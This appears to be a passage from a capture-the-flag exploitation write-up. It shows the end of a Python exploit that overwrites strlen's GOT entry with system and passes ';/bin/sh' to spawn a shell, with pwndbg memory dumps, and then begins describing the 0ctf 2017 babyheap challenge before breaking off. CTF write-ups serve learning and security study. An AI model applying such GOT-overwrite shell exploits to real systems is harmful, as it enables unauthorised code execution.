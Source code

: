```python
# the program will call sub_80485EC(our_input),
# and in this function,it call strlen(our_input),
# so we can rewrite the strlen@got to system_addr,
# and transfer the argue '/bin/sh' to fake strlen and get shell
add('S',p32(elf.got['strlen']))
# dbg()
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a250  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00005300  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/s 0x0804a250
# 0x804a250 <strlen@got.plt>: "@\364\337\367@\225\331\367\300\324\335", <incomplete sequence \367>
# pwndbg>

message(p32(system_addr)+ ';/bin/sh\x00')
# the arguement of system contains ';',means system execute it by to parts,
# in other words, it means system(p32(system_addr);"/bin/sh") = system(p32(system_addr));system("/bin/sh");
# dbg()
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a250  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00005300  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/16w 0x0804a250
# 0x804a250 <strlen@got.plt>: 0xf7d6dda0  0x69622f3b  0x68732f6e  0x00000a00
# 0x804a260:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a270:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a280 <stdin>:  0xf7ee55a0  0x00000000  0x0804a2a8  0x00000000
# pwndbg>

itr()
```

## babyheap_0ctf_2017

64位程序，保护全开

### 基本功能-babyheap

实际上是一个堆分配器，功能如下：

```c++
 puts("1. Allocate");
  puts("2. Fill");
  puts("3. Free");
  puts("4. Dump");
  puts("5. Exit");
```

- Allocate
